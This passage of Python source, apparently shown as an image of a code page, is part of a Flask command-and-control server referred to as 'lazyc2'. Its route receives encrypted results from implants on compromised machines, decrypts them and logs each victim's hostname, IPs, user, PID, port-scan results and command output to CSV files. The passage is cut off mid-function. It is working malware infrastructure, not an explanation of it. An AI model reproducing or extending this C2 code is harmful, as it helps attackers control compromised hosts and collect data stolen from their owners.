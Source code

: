 ```python
        return Response(encrypted_response, mimetype='application/octet-stream')

@app.route(f'{route_maleable}<client_id>', methods=['POST'])
def receive_result(client_id):
    """Handles implant sending results (POST request)."""
    try:
        print(f"[C2] Receiving result from client {client_id}")
        encrypted_data = request.get_data() # Get the encrypted data from POST body
        
        # Decrypt the received data
        decrypted_data = decrypt_data(encrypted_data).decode('utf-8')
        
        # Parse the JSON data sent by the implant
        data = json.loads(decrypted_data)

        # Validate expected keys in the JSON data
        if not data or not all(key in data for key in ['output', 'command', 'client', 'pid', 'hostname', 'ips', 'user']):
            print(f"[C2 ERROR] Invalid data format from {client_id}")
            return jsonify({"status": "error", "message": "Invalid data format"}), 400

        output = data['output']
        implant_os = data['client'] # OS from the implant
        command = data['command']
        # ... extract other info like pid, hostname, ips, user ...

        # Validate client_id format for safety (important for file paths)
        sanitized_client_id = ''.join(c for c in client_id if c.isalnum() or c in '-_')
        if not sanitized_client_id or sanitized_client_id != client_id:
             print(f"[C2 ERROR] Invalid client_id format received: {client_id}")
             return jsonify({"status": "error", "message": "Invalid client_id format"}), 400

        # Define the log file path (within allowed directory)
        log_file_path = os.path.join(ALLOWED_DIRECTORY, f"{sanitized_client_id}.log")
        
        # --- Security check: Ensure path is within allowed directory ---
        allowed_directory_abs = os.path.abspath(ALLOWED_DIRECTORY)
        log_file_abs = os.path.abspath(log_file_path)
        if not log_file_abs.startswith(allowed_directory_abs + os.sep):
             print(f"[C2 ERROR] Path traversal attempt detected: {log_file_abs}")
             return jsonify({"status": "error", "message": "Invalid file path"}), 403
        # --- End Security Check ---

        # Append the received data to the client's log file (CSV format)
        file_exists = os.path.isfile(log_file_abs)
        with open(log_file_abs, 'a', newline='') as f:
            writer = csv.writer(f)
            if not file_exists: # Write header if it's a new file
                writer.writerow(["client_id", "os", "pid", "hostname", "ips", "user", "discovered_ips", "result_portscan", "command", "output"])

            # Write the data row (be careful with potential delimiter issues in data)
            # Using safe_data approach seen in actual lazyc2.py
            safe_data = [
                 str(sanitized_client_id),
                 str(implant_os)[:100], # Truncate potentially long fields
                 str(data.get('pid', ''))[:20],
                 str(data.get('hostname', ''))[:100],
                 str(data.get('ips', ''))[:100],
                 str(data.get('user', ''))[:50],
                 str(data.get('discovered_ips', ''))[:1000],
                 str(data.get('result_portscan', ''))[:1000],
                 str(command)[:500],
```